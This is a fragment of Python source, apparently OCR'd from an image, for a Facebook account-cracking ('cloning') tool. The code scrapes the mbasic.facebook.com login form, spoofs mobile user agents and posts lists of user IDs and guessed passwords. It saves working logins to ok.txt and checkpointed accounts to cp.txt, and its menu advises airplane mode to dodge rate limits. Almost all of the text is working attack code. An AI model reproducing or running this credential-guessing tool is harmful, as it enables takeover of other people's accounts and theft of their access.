 				Adiagents  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
			ses = requests.Session()
			headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
			dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
			_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post("https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
			if 'c_user' in ses.cookies.get_dict():
				print('\r\033[1;37m[\033[1;32mPSYCHO-OK\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))
				wrt = '%s - %s' % (user,pw)
				ok.append(wrt)
				open('ok.txt','a').write('%s\n' % wrt)
				break
			elif 'checkpoint' in ses.cookies.get_dict():
				print('\r\033[1;31m[\033[1;30mPICCHI-CP\033[1;31m]\033[1;30m %s | %s      ' % (user,pw))
				wrt = '%s - %s' % (user,pw)
				ok.append(wrt)
				open('cp.txt','a').write('%s\n' % wrt)
				break
			else:
				continue
		loop += 1
	def __pler__(self):
		os.system("clear")
		print(banner)
		print ("\033[1;37m [1] \033[1;36mMETHOD FAST ")
		print ("\033[1;37m [2] \033[1;36mMETHOD NORMEL ")
		print ("\033[1;37m [3] \033[1;36mMETHOD MEDIUM ")
		print(50*"\033[1;97m_")
		yan = input('\033[1;37m[+] \033[1;36mCHOOSE OPTION \033[1;31m: \033[1;32m')
		if yan == '':
			print('\Choose Error ')
			exit()
		elif yan in ('1', '01'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m File CLONING CP/OK IDS MIX ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')